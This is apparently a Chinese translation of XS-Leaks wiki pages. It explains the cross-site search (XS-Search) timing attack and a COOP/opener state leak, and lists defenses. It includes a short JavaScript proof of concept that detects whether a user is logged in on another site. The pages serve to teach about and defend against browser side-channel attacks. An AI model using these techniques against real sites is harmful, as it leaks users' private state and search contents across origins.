 ```yaml
---
title: Attacks
---
```


# XS-Search

跨站搜索（XS-Search）是XS-Leaks攻击家族中的重要攻击原理。这类攻击通过滥用基于查询的搜索系统，从攻击者源站泄露用户信息[^1][^2]。原始攻击利用时间测量来判断搜索系统是否返回结果，其流程如下：

1. 建立返回结果的请求所需时间基准（命中），以及无结果返回的请求所需时间基准（未命中）。  
2. 对搜索接口发起[计时攻击](#timing-attacks-network-timing)，暴力破解首字符（如`?q=r`）。  
3. 若测量时间低于命中基准，则追加字符（如`?q=ra`）；否则尝试新字符（如`?q=s`）。  
4. 最终可泄露完整敏感信息（如`?q=secret`）。  

该攻击需多次计时测量以提高准确性，可通过膨胀技术和统计分析优化。此外，攻击者可不逐字符暴力破解，而是搜索特定词语或句子来仅检测结果是否存在。

此攻击的核心价值在于其原理，因其可应用于多种不同的XS-Leaks攻击场景。

## 膨胀技术  
XS-Search的膨胀技术用于提升攻击精度，使两种响应类型（命中/未命中）更易区分。以下两种机制可优化测量：  

- 若搜索系统在返回结果时将某些GET参数反射到响应中，响应体积会增大。这使得请求更易区分，因为服务器准备响应和网络传输时间显著增加。  
- 强制服务器在返回响应前执行更多计算。该方法适用于支持更复杂查询语言的搜索系统（例如Gmail中排除关键词需处理结果中的每个字符）。  

## 扩展原理  
尽管XS-Search的原始研究聚焦于计时攻击，但其原理可扩展至其他XS-Leaks。攻击者可不依赖不可靠的计时测量，转而利用其他XS-Leaks提取相同信息。  

在基于查询的搜索系统中，用户提交查询并获取关联响应，可能产生两种结果：  
1. 系统显示结果，页面呈现特定行为（状态一）；  
2. 系统未显示结果，页面行为与状态一不同（状态二）。  

若上述两种行为可通过比计时更可靠的XS-Leak区分，攻击者即可实施更高效的XS-Search攻击。例如：若页面框架数量随搜索结果变化（状态一与二可区分），则可结合[框架计数](#frame-counting) XS-Leak应用此攻击原理，其准确性可能优于计时测量。  

## 防御措施  

| 攻击变体         | [SameSite Cookies (Lax)](./defenses#opt-in-same-site-cookies) | [COOP](./defenses#opt-in-coop) | [框架防护](./defenses#opt-in-xfo) |                                          [隔离策略](./defenses#isolation-policies)                                          |
| :--------------: | :--------------------------------------------------------------------------------: | :-------------------------------------------------: | :----------------------------------------------------: | :------------------------------------------------------------------------------------------------------------------------------------------: |
| XS-Search（计时） |                                         ✔️                                          |                          ❌                          |                           ❌                            | [RIP](./defenses#isolation-policies-resource-isolation" >}}) 🔗 [NIP](./defenses#isolation-policies-navigation-isolation" >}}) |

🔗 – 防御机制需组合使用以应对不同场景。  

## 参考文献  
[^1]: 《跨站搜索攻击》，[链接](https://446h.cybersec.fun/xssearch.pdf)  
[^2]: 《跨站搜索(XS-Search)攻击》，Hemi Leibowitz，OWASP AppSec IL 2015，[链接](https://wiki.owasp.org/images/a/a7/AppSecIL2015_Cross-Site-Search-Attacks_HemiLeibowitz.pdf)（[备档](https://web.archive.org/web/20231226222426/https://owasp.org/www-pdf-archive/AppSecIL2015_Cross-Site-Search-Attacks_HemiLeibowitz.pdf)）  

# 

若页面将其 `opener` 属性设置为 `null` 或根据用户状态采用 [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) 防护机制，攻击者便可推断跨站点的用户状态信息。例如，通过检查窗口引用，攻击者只需在 iframe（或新窗口）中打开一个仅认证用户可访问的端点，即可检测用户是否已登录。[运行演示](https://xsinator.com/testing.html#COOP%20Leak)

## 代码片段  
以下代码演示如何检测 `opener` 属性是否被设为 `null`，或 [COOP](./defenses#opt-in-coop) 标头是否存在非 `unsafe-none` 的值。此检测适用于 iframe 和新窗口。

```javascript
// 定义存在漏洞的URL
const v_url = 'https://example.org/profile';

const exploit = (url, new_window) => {
  let win;
  if(new_window) {
    // 在新标签页打开URL，检测win.opener是否受COOP影响
    // 或被设为null
    win = open(url);
  } else {
    // 创建iframe检测opener是否定义
    // 该方法不适用于COOP检测或已启用框架防护的页面
    document.body.insertAdjacentHTML('beforeend', '<iframe name="xsleaks">'); 
    // 将iframe重定向至目标URL
    win = open(url, "xsleaks");
  }
  
  // 等待2秒确保页面加载
  setTimeout(() => {
    if (win.closed) {
      console.log("opener已关闭");
    } else {
      // 检测新窗口的opener属性
      if(!win.opener) console.log("win.opener为null");
      else console.log("win.opener已定义");
    }
  }, 2000);
}
exploit(v_url);
exploit(v_url, 1);
```

## 防御措施  
缓解此类XS-Leak需保持页面行为一致性：  
- **统一COOP配置**：所有页面应设置相同的 `opener` 属性值  
- **避免JS动态设置**：通过JavaScript设置 `opener` 为 `null` 可能存在边界情况，因为iframe的sandbox属性可完全禁用JavaScript  

